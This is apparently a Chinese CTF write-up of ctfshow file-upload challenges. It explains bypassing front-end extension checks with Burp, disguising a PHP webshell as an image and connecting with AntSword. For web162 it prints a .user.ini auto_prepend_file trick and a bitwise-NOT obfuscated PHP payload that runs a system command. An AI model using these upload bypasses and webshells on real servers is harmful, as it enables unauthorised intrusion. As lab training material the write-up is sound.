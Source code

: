 ![img](https://img-blog.csdnimg.cn/img_convert/59a8e50bc958f8f4ee82b051f177550d.png)

上传之后这样修改之后发送数据包，然后蚁剑连接，得到flag！![image-20220215212536157](https://img-blog.csdnimg.cn/img_convert/a5e889c11e631bd18a51b61655c78c4b.png)

# 文件上传9--前端验证

![image-20220206165932472](https://img-blog.csdnimg.cn/img_convert/9ce8fe3bff1e9d904eecdaa77ff38487.png)

这个题说了上传图片，所以php的一句木马应该上传不了，合成一下图片木马上传一下！

但是上传成功之后发现蚁剑还是没有办法连接，这个时候首先考虑到的是前端验证导致的，bp抓包修改一下后缀，把png修改成php,然后蚁剑连接成功，得到flag，放图

![image-20220206170213732](https://img-blog.csdnimg.cn/img_convert/5d31793bdc53189f16fae0c1ea612391.png)

![image-20220206170225325](https://img-blog.csdnimg.cn/img_convert/9a442b12e1bde01036691be022cba313.png)

这道题只是简单的前端验证，解题步骤也就是这样！

# 文件上传10--后端校验

这个题没啥说的，思路和151一样，就不说了





----------------------------------------------------------------------------------------分割线--------------------------------------------------------------------------------------

上面是之前刷题的记录，这里从ctfshow的web162开始刷

# web162

这道题目也是上传.user.ini之后再上传图片🐎

这道题无非就是把点给过滤了，只需要上传的🐎不带点即可

.user.ini

```
GIF89a

auto_prepend_file=png
```

png

```
GIF89a
<?=require~%9b%9e%8b%9e%c5%d0%d0%8b%9a%87%8b%d0%8f%93%9e%96%91%d3%c3%c0%8f%97%8f%df%8c%86%8c%8b%9a%92%d7%d8%8b%9e%9c%df%d1%d1%d0%99%d5%d8%d6%c4%c0%c1?>
```

采用取反
